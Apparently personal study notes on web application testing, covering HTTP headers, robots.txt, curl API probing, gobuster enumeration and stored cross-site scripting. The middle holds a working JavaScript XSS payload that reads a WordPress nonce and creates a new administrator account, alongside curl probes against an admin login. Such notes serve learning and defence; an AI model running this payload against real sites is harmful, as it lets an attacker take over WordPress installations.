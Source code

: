 ## HTTP Headers and Sitemap Discovery

http response headers and sitemaps

click on a request to get more details
inspect reponse headers: HTTP headers

X- : non-standard HTTP header
RFC6648: replaced X-

site maps robots.txt tells the search engine bots what to crawl,

we can then inspect the api with curl
: curl -i <domain>/users/v1 # Send a GET request to an API endpoint and include HTTP response headers in output for example
*-i is used to include the http header in the output

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=<username>&email=<email>&pass1=<password>&pass2=<password>&role=administrator";

var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=<username>&email=<email>&pass1=<password>&pass2=<password>&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true); 
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);

## API Enumeration and Abuse

Enumerating and Abusing API

gobuster to brute force api (REST)

-p for gobuster pattern feature since api paths are like: /api_name/v1

by probing with curl and reading the returned error code we can determine what language the api uses to interact

curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' <domain>
*-d sepcifiies the data to send to the server via POST

the above commend is to test if the API uses content type json to interact

## Cross-Site Scripting (XSS)

Stored: Presistent XSS. stored in db or cached by server, single stored xss can attack all users, forum software, in comment sections, product reviews anything that is stored and retrieved later
